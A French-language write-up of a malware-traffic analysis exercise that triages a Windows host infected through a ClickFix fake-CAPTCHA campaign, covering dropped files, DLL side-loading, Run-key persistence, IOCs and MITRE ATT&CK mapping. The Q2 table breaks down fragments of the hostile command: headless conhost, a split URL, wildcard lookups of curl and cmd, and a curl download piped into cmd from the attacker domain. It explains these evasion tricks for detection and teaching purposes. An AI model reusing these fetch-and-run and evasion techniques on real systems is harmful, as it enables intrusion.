# Kongtuke / ClickFix : triage d'un poste infecté

**Exercice :** [Malware-Traffic-Analysis.net, 2026-09-11 « Kongtuke Rebuke! »](https://www.malware-traffic-analysis.net/2026/09/11/index.html) 
**Outils :** terminal Linux (`file`, `sha256sum`, `ls`), VirusTotal

## Contexte

Le scénario illustre la technique **ClickFix**.

L'utilisateur visite un site légitime compromis. Une fausse page de vérification s'affiche (« prouvez que vous n'êtes pas un robot ») : pour la passer, il doit copier-coller une commande dans la fenêtre Exécuter (Win+R), ce qui infecte sa machine.



## Q1. Comment l'utilisateur a-t-il été piégé ?



**Réponse :** l'utilisateur visite quadcinema[.]com, un site légitime. Un script malveillant injecté dans la page charge la fausse vérification depuis hodkiewhcz[.]sbs (`/6oll0u79.js`). 

## Q2. Que fait la commande ClickFix ?



**Réponse :**

| Morceau | Rôle |
| --- | --- |
| `conhost --headless` | lance la commande sans fenêtre : la victime ne voit pas les commandes s'exécuter |
| `set aip=https:` / `set htp=//winrun2915...` puis `!aip!!htp!` | l'URL est coupée en deux variables puis recollée, pour qu'elle n'apparaisse pas en entier dans la commande |
| `where cu??.e??` / `where cm?.e??` | retrouve `curl.exe` et `cmd.exe` avec des wildcards : les noms n'apparaissent jamais en clair, ce qui contourne les règles de détection |
| `curl ... -s URL \| cmd` | télécharge un script depuis winrun2915[.]com et l'envoie directement à `cmd.exe`, qui l'exécute |

## Q3. Quels fichiers ont été déposés sur le poste ?






**Réponse :** les fichiers suspects ont tous été créés en même temps (22:06) :

| Fichier | Emplacement | Type réel | Rôle |
| --- | --- | --- | --- |
| `reader.pdf` | Local\node-v22.23.1-win-x64\ | JavaScript obfusqué | charge malveillante |
| `TRegSvr.exe` | Roaming\ | exécutable Windows (légitime) | programme hôte |
| `vclimg370.bpl` | Roaming\ | DLL Windows | stager (chargeur) |
| `compatibility.ini` | Roaming\ | texte | identifiant + adresse du C2 |
| `bat.txt` | Roaming\ | texte | journal du script (« begin / exe ok / bpl ok ») |

## Q4. Le « PDF » est-il vraiment un PDF ?



**Réponse :** non. `file` indique `JavaScript source` : c'est un script JavaScript avec une extension PDF. L'attaquant utilise Node.js, un programme légitime qui ne demande ni installation ni droits administrateur, pour exécuter ce fichier JavaScript malveillant.

## Q5. Comment le malware survit-il au redémarrage ?



**Réponse :** une valeur est ajoutée dans la clé de démarrage de l'utilisateur :

- Clé : `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- Nom de la valeur : `Microsoft`, un nom choisi pour paraître légitime
- Commande : `node.exe reader.pdf`

À chaque ouverture de session, le programme légitime node.exe exécute le script malveillant reader.pdf.

## Q6. À quoi servent les fichiers de Roaming ?





**Réponse :**
- `compatibility.ini` contient un identifiant et l'URL `https://winrun2915[.]com`. Il s'agit du même domaine que dans la commande ClickFix : c'est l'adresse du serveur de l'attaquant.
- `TRegSvr.exe` est un outil légitime. `vclimg370.bpl` est la charge malveillante détectée comme **trojan / loader** par VirusTotal (11/71).
- C'est le schéma du **DLL side-loading** : le programme légitime charge la bibliothèque malveillante, et le code malveillant s'exécute au sein d'un processus signé et légitime.

## Chaîne d'infection

1. Le site légitime quadcinema[.]com est compromis : un script injecté charge la fausse page depuis hodkiewhcz[.]sbs.
2. Le script affiche la fausse vérification ClickFix.
3. La victime suit les instructions et exécute la commande ClickFix (Win+R).
4. `curl` télécharge un script depuis winrun2915[.]com et l'exécute avec `cmd`.
5. Le script dépose Node.js + `reader.pdf` (JavaScript), ainsi que `TRegSvr.exe` + `vclimg370.bpl` (side-loading).
6. Persistance : la valeur « Microsoft » de la clé Run exécute `node.exe reader.pdf` à chaque ouverture de session.

## IOC

| Type | Valeur |
| --- | --- |
| Domaine | hodkiewhcz[.]sbs (fausse page ClickFix) |
| Domaine | winrun2915[.]com (téléchargement, C2) |
| SHA256 | `305bea7b5588ac82a742f19f78e81ec8f378a3c5171fb9dce1dcea8408ddc73e` (reader.pdf) |
| SHA256 | `93194b3fe4a2fc7abbd31f025f19340134b3d1e59c3988f5d27914c744c8e95c` (vclimg370.bpl) |
| Registre | `HKCU\...\CurrentVersion\Run`, valeur `Microsoft` |

## MITRE ATT&CK

| Technique | ID | Observation |
| --- | --- | --- |
| Drive-by Compromise | T1189 | site légitime compromis |
| User Execution : Malicious Copy and Paste | T1204.004 | la victime colle la commande ClickFix |
| Command and Scripting Interpreter : Windows Command Shell / JavaScript | T1059.003 / T1059.007 | `cmd.exe`, `node.exe reader.pdf` |
| Ingress Tool Transfer | T1105 | téléchargement avec `curl` |
| Registry Run Keys / Startup Folder | T1547.001 | valeur `Microsoft` dans la clé Run |
| Masquerading | T1036 | `reader.pdf` (JavaScript), valeur nommée « Microsoft » |
| Hijack Execution Flow : DLL side-loading | T1574 | `TRegSvr.exe` + `vclimg370.bpl` |

## Recommandations

- Isoler le poste, supprimer la valeur de registre et les fichiers déposés, puis réinstaller le poste.
- Bloquer hodkiewhcz[.]sbs et winrun2915[.]com sur le proxy et le DNS.
- Alerter sur `conhost --headless` et sur `curl ... | cmd` dans les journaux de processus (EDR, Sysmon).
- Sensibiliser : aucun site légitime ne demande de coller une commande dans Win+R.

## Ce que j'ai appris

- Le type réel d'un fichier se vérifie avec `file`, pas avec son extension : `reader.pdf` était du JavaScript.
- Les horodatages (`ls -la`) m'ont permis de repérer les fichiers déposés par l'attaquant, tous créés à 22:06.
- Un fichier légitime (`TRegSvr.exe`) peut couvrir l'exécution d'une charge malveillante : c'est le principe du side-loading.
